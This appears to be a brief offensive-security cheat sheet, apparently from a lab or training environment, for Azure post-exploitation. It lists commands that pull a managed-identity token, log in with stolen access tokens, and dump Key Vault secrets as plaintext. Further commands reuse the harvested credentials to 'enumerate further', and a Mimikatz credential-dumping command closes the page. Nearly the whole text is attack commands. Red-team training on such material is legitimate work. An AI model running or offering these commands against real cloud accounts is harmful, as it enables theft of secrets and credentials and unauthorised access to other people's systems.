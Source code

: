 ### Requesting tokens once logged in
```

```

### Keyvault
#### Get keyvault access token
```
curl "$IDENTITY_ENDPOINT?resource=https://vault.azure.net&api-version=2017-09-01" -H secret:$IDENTITY_HEADER
```

### Login to account with access tokens for keyvault
```
$accesstoken = ''
$keyvaulttoken = ``

Connect-AzAccount -AccessToken $accesstoken -AccountId 2e91a4fe-a0f2-46ee-8214-fa2ff6aa9abc -KeyVaultAccessToken $keyvaulttoken
```

#### List all keyvaults
```
Get-AzKeyVault
```

#### Get info about a specific keyvault
```
Get-AzKeyVault -VaultName <VAULT NAME>
```

#### List the saved creds from keyvault
```
Get-AzKeyVaultSecret -VaultName <VAULT NAME> -AsPlainText
```

#### Read creds from a keyvault
```
Get-AzKeyVaultSecret -VaultName <VAULT NAME> -Name <NAME> -AsPlainText
```

#### Connect with the credentials found and enumerate further!
```
$password = ConvertTo-SecureString <PASSWORD> -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('kathynschaefer@defcorphq.onmicrosoft.com', $password)

Connect-AzAccount -Credential $creds
```

### Mimikatz
```
Invoke-Mimikayz -Dumpcreds
```
